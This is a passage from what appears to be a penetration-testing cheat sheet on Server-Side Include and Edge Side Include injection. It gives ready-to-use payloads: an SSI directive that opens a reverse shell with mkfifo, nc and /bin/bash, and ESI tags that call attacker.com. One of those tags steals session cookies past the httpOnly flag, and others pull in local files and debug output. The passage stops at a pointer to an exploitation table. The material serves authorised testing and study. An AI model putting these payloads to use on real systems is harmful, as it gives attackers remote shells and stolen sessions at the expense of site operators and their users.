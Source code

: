 ```
// Reverse shell
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->

// Print all variables
<!--#printenv -->
// Setting variables
<!--#set var="name" value="Rich" -->
```

## Edge side inclusion
There is a problem **caching information or dynamic applications** as part of the content may have **varied** for the next time the content is retrieved. This is what **ESI** is used form, to indicate using ESI tags the **dynamic content that needs to be generated** before sending the cache version.
if an **attacker** is able to **inject an ESI tag** inside the cache content, then, he could be able to i**nject arbitrary content** on the document before it's sent to the users.


#### ESI Detection 

The following header in a response from the server means that the server is using ESI:

	Surrogate-Control: content="ESI/1.0"

if you can't find this header , the server **might be using ESI anyways** A **Blind Exploition approach can also be used** as a request should arrive to the attackers server:

```
// Basic detection
hell<!--esi-->o 
// If previous is reflected as "hello", it's vulnerable

// Blind detection
<esi:include src=http://attacker.com>

// XSS Exploitation Example
<esi:include src=http://attacker.com/XSSPAYLOAD.html>

// Cookie Stealer (bypass httpOnly flag)
<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

#### ESI exploitation 
[ GoSecure created](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) a table to understand possible attacks that we can try against different ESI-capable software, depending on the functionality supported:
